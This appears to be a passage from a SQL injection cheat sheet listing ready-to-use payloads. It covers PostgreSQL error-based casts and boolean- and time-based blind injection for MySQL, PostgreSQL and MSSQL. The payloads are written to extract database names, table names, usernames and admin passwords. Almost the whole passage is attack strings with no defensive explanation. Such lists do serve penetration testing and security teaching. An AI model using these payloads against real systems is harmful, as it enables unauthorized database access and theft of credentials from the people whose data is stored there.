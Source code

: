 ### 3. PostgreSQL Error-Based
```sql
# Cast error
' AND 1=CAST((SELECT version()) AS int)--
' AND 1=CAST((SELECT current_database()) AS int)--
' AND 1=CAST((SELECT current_user) AS int)--

# Data extraction
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
' AND 1=CAST((SELECT password FROM users WHERE username='admin') AS int)--
```

## Blind SQL Injection

### 1. Boolean-Based Blind Injection
```sql
# Basic boolean testing
' AND 1=1--  (True condition)
' AND 1=2--  (False condition)

# Database detection
' AND (SELECT SUBSTRING(@@version,1,1))='5'--  (MySQL 5.x)
' AND (SELECT SUBSTRING(version(),1,10))='PostgreSQL'--  (PostgreSQL)

# String length detection
' AND (SELECT LENGTH(database()))=8--
' AND (SELECT LENGTH(user()))>5--

# Character-by-character extraction
' AND (SELECT SUBSTRING(database(),1,1))='t'--
' AND (SELECT SUBSTRING(database(),2,1))='e'--
' AND (SELECT SUBSTRING(database(),3,1))='s'--

# Table enumeration
' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database())=5--
' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)='u'--

# Data extraction
' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1)='a'--
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='p'--
```

### 2. Time-Based Blind Injection
```sql
# MySQL time-based
' AND IF((SELECT SUBSTRING(database(),1,1))='t',SLEEP(5),0)--
' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0)--

# PostgreSQL time-based
'; SELECT CASE WHEN (SELECT current_database())='test' THEN pg_sleep(5) ELSE pg_sleep(0) END--

# MSSQL time-based
'; IF ((SELECT SUBSTRING(db_name(),1,1))='m') WAITFOR DELAY '00:00:05'--

# Data extraction with time delays
' AND IF((SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1)='a',SLEEP(5),0)--
' AND IF((SELECT LENGTH(username) FROM users LIMIT 0,1)=5,SLEEP(5),0)--
```
